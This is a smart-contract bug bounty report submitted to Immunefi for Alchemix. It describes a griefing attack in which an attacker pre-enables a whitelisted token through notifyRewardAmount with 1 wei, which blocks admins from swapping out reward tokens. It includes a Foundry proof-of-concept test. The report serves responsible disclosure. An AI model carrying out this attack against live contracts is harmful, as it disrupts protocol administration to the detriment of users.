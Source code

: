 
# Griefing attack prevents admins from disabling reward tokens

Submitted on May 10th 2024 at 03:16:13 UTC by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30985

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Description

The `Voter` smart contract can whitelist - and remove from the whitelist - tokens with the functions:
```
function whitelist(address _token) public {
    require(msg.sender == admin, "not admin");
    require(_token != address(0), "cannot be zero address");
    _whitelist(_token);
}
function removeFromWhitelist(address _token) external {
    require(msg.sender == admin, "not admin");
    _removeFromWhitelist(_token);
}
```

The Voter's whitelist is used in the `Bribe` smart contract to ensure only whitelisted tokens are **enabled** when calling `Bribe.addRewardToken(...)`.

In Bribe, it is impossible to disable a token explicitly; it is only possible for admins to "**disable an already enabled token while replacing it with a new one**" calling `Voter.swapReward(...)`, then the Voter smart contract will call `Bribe.swapOutRewardToken(...)`.

```
/// @inheritdoc IVoter
function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
    require(msg.sender == admin, "only admin can swap reward tokens");
    IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
}
```
> swapReward in Voter

```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    // code here removed for simplicity

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // code here removed for simplicity
}
```
> swapOutRewardToken in Bribe

We discover a griefing attack that makes the `swapOutRewardToken(...)` revert, preventing reward tokens from being disabled.

## Vulnerability Details

The `swapOutRewardToken(...)` function requires the new token that admins are trying to replace the old token with not to exist. (**rewards[newToken]** must be equal to false).
```
function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
    require(msg.sender == voter, "Only voter can execute");
    require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
    require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

    // Check that the newToken does not already exist in the rewards array
    for (uint256 i = 0; i < rewards.length; i++) {
        require(rewards[i] != newToken, "New token already exists");
    }

    isReward[oldToken] = false;
    isReward[newToken] = true;

    // Since we've now ensured the new token doesn't exist, we can safely update
    rewards[oldTokenIndex] = newToken;

    emit RewardTokenSwapped(oldToken, newToken);
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L138-L155

### Attack vector

The logic of the public function `Bribe.notifyRewardAmount(token, amount)`, automatically enables any whitelisted token you pass as a parameter if it is not already enabled so the attack vector is:

**Step 1-** An admin whitelists a token in **Voter** (say **DAI**) to replace the old reward token with it.

**Step 2-** A malicious entity calls `Bribe.notifyRewardAmount(DAI, 1)` sending **1 wei** of day. The **DAI** token will be enabled automatically.

**Step 3-** The admin calls `Voter.swapReward(...)` to disable the old token and enable **DAI**, but his transaction reverts because **DAI** is already enabled.

Hence, the old reward token can't be disabled.

## Impact Details

Griefing attack that prevents admin from disabling a token.

> The 5-reports/48-hours limit makes time management crucial, and every day we invest in attempting to escalate the impact of a specific report decreases the total number of bugs we can submit to the Boost.
>
> We suspect the impact could be increased from griefing to a denial of service in parts of the protocol or the Bribe itself, but we can't afford to allocate time to dig deeper.


## Proof of Concept

The following test replicates the attack vector.

Add it to `alchemix-v2-dao/src/test/Voting.t.sol`:

```
    function testFrontRunningSwapOutRewardToken() public {

        // Get the bribe address
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Whitelist USDT
        hevm.prank(address(timelockExecutor));
        voter.whitelist(usdt);

        // Add USDT as a reward token
        hevm.prank(address(sushiGauge));
        IBribe(bribeAddress).addRewardToken(usdt);

        // Check that the reward token at index 0 is ACLX and reward token at index 1 is USDT
        assertEq(IBribe(bribeAddress).rewards(0), address(alcx), "reward token should be alcx");
        assertEq(IBribe(bribeAddress).rewards(1), usdt, "reward token should be usdt");

        // Whitelist DAI
        hevm.prank(address(timelockExecutor));
        voter.whitelist(dai);

        // Create attacker address
        address attacker = address(0x99);
        // Give the attacker 1 wei of DAI
        deal(address(dai), attacker, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Approve the bribe to spend 1 wei of DAI
        IERC20(dai).approve(bribeAddress, 1);
        // Prank the attacker
        hevm.prank(attacker);
        // Sends 1 wei of DAI to the bribe, then adds the DAI token
        // as reward and prevents admins from removing the USDT token as reward
        IBribe(bribeAddress).notifyRewardAmount(dai, 1);
        
        // Admin attempts to swap out USDT for DAI - but his transaction reverts
        // USDT can't be removed from the list of reward tokens
        hevm.expectRevert(abi.encodePacked("New token already exists"));
        hevm.prank(address(voter));
        IBribe(bribeAddress).swapOutRewardToken(1, usdt, dai);

    }
```